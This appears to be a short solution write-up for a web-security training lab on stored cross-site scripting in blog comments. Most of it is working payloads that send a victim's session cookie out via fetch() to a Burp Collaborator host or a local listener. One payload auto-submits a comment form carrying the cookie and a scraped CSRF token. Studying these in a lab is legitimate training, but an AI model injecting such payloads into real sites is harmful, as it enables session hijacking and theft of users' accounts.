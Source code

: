 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">
  
```
<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0a650049030436b68009303c007b0035.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>
```
  
To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```
